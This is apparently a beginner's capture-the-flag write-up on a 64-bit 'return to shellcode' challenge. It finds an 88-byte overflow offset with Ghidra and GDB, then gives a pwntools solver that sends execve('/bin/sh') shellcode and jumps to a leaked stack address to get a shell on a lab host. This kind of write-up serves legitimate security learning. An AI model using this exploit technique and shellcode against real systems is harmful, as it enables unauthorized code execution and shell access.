







## hi all :write
This is my experience write up about PWN material (return to shellcode). I try to asnwer challenges after Learning
about the shellcode, I'm not good at it, but here I want to give a little knowledge that I can for help you all who is in a clueless position like I was before.



## What is Problem
in the challange you should to return flow of binary to shellcode

## Analysis File
So this file is x64 and , you can see the protection file :


## Let's Start Reverse Using Ghidra



You can see, the leak address has been given by the system, so i just found padding, and return to leak address
And then, you can see, a function read, it's ask user input, and this is a vuln of the chall too.

## Solution

`shellcode + padding + return to shellcode`

## Debuging using GDB-GEF
let's see if i break point at  `printf`  call



after this let's run the program and using `ni` (next instruction until a read func), after this input to much character, hm i using char `A` in this challanges, no probles if you can other char.



after this, let's check offset and return address for calculate padding. 



the start of input address offset is `0x7fffffffdf60` and return address is `0x7fffffffdfb8` 

after i calculate this padding, i found the padding is `88`



And after this i create solver

## Solver 

```

#!/usr/bin/env python3
from pwn import *

#p = process('./pwn104.pwn104')
p = remote('10.10.83.114', 9004)
sellcode = b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
payload = sellcode
payload += b'A' * ( 88 - len(sellcode))
print(payload)
p.recvuntil(b'you at ')
address_leak = p.recvline()
address = int(address_leak.strip(b'\n'), 16)
print(f"Address: 0x{address:x}")
payload += p64(address)
#payload += p64(address)
print(payload)
p.sendline(payload)

p.interactive()

```

And after run this solver i got



## Quotes
> "The only people spend a much time is a got a shell"